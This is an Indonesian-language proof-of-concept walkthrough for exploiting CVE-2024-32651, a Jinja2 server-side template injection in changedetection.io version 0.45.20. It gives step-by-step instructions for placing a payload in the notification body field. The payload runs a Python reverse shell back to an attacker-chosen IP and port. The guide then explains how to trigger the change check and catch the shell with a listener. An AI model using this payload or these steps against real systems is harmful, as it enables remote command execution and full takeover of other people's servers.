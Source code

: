 # CHANGEDETECTION
*Uji coba pada versi 0.45.20*

# Cara Kerja
ChangeDetection.io bekerja dengan cara mengambil snapshot dari halaman web yang dipantau pada interval waktu tertentu, lalu membandingkannya dengan snapshot sebelumnya untuk mendeteksi perubahan. Pengguna dapat menentukan URL halaman yang ingin dipantau untuk memantau area tertentu saja. Ketika perubahan terdeteksi, sistem akan mengirimkan notifikasi melalui metode yang dipilih, seperti Discord, Email, Slack, Telegram, API calls, dan lainnya. 

# Kerentanan
Kerentanan Server-Side Template Injection (SSTI) pada aplikasi changedetection.io yang menggunakan mesin template Jinja2. Kerentanan ini memungkinkan penyerang melakukan Remote Command Execution (RCE) pada host server, memberikan mereka kemampuan untuk menjalankan perintah sistem tanpa batasan, termasuk kemungkinan penggunaan reverse shell. Dampaknya sangat kritis karena penyerang dapat mengambil alih sepenuhnya mesin server.

# Langkah-langkah
*Sebelum memulai, jalankan web server anda (http.server)*

1. Intro (silahkan login menggunakan kata sandi anda)
![Screenshot 2025-01-04 104116](https://github.com/user-attachments/assets/69d6858a-e9c7-44b3-a01a-93df091e5e9b)

2. Setelah Masuk, masukan alamat pada url kemudian klik "Watch". Setelah itu klik "edit"
![Screenshot 2025-01-04 204927](https://github.com/user-attachments/assets/25c8a380-9eab-4b83-94e4-df7ca405d186)

3. Pada tab "General", masukkan kembali url ke web server anda. Setelah itu set Time -> "Seconds = 30". Klik tab "Notifications"
   *pastikan "Send a notification .." di centang*

4. Pada "Notification URL List", input "gets://<ip>". Pada bagian "Notification Body", copy & paste payload dan ubah IP serta port.

*payload: {{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}*

SAVE!!
(Kembali ke Dashboard)

# Langkah untuk mendapatkan Reverse Shell

1. Aktifkan listener, masukkan port sesuai dengan port yang telah ditentukan pada payload sebelumnya
2. Tambahkan sebuah file pada direktori di "/home/user/" (pada kasus saya,  silahkan sesuaikan dengan kondisi anda)
3. Klik "Recheck" pada bagian alamat website anda.
4. Perhatikan listener anda!

*jika gagal, lanjut poin 5*

5. Reload dashboard
6. Hapus file pada direktori di pc
7. Kembali ke web, centang bagian alamat website anda, kemudian klik "Recheck"
*Jika masih gagal, perhatikan video dibawah*

# PoC
https://github.com/user-attachments/assets/af73e1cd-b55d-480d-8f9e-0129ded43b75

Sumber :
- [CVE Details](https://www.cvedetails.com/cve/CVE-2024-32651)
- [Hacktive Security](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io)
- [Cyber Material](https://cybermaterial.com/server-side-template-injection-with-jinja2/)
